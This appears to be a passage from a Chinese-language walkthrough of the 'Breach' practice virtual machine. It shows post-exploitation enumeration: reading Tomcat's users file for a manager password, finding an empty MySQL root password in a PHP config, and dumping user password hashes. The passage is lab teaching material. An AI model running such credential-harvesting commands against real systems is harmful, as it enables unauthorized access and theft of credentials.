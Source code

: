 收集tomcat信息

```sh
tomcat6@Breach:/var/lib/tomcat6/conf$ cat tomcat-users.xml
<?xml version='1.0' encoding='utf-8'?>
......
<!--
  <role rolename="tomcat"/>
  <role rolename="role1"/>
  <user username="tomcat" password="tomcat" roles="tomcat"/>
  <user username="both" password="tomcat" roles="tomcat,role1"/>
  <user username="role1" password="tomcat" roles="role1"/>

-->

<role rolename="manager"/>
<user username="tomcat" password="Tt\5D8F(#!*u=G)4m7zB" roles="manager"/>

</tomcat-users>
```

发现mysql是空密码

```sh
tomcat6@Breach:/var/www/5446$ cat fe4db1f7bc038d60776dcb66ab3404d5.php
<?php

// Database Hostname
// Hostname of the database server. If you are unsure, 'localhost' works in most cases.
define( 'SDATA_DB_HOST', 'localhost' );

// Database Username
// Your database user account on the host
define( 'SDATA_DB_USER', 'root' );

// Database Password
// Password for your database user account
define( 'SDATA_DB_PASS', '' );

// Database Name
// The name of database on the host. The installer will attempt to create the database if not exist
define( 'SDATA_DB_NAME', 'impresscms' );
```

查看mysql数据库的用户

```mysql
mysql> select User,Password from user;
select User,Password from user;
+------------------+-------------------------------------------+
| User             | Password                                  |
+------------------+-------------------------------------------+
| root             |                                           |
| milton           | 6450d89bd3aff1d893b85d3ad65d2ec2          |
| root             |                                           |
| root             |                                           |
| debian-sys-maint | *A9523939F1B2F3E72A4306C34F225ACF09590878 |
+------------------+-------------------------------------------+
5 rows in set (0.00 sec)
```
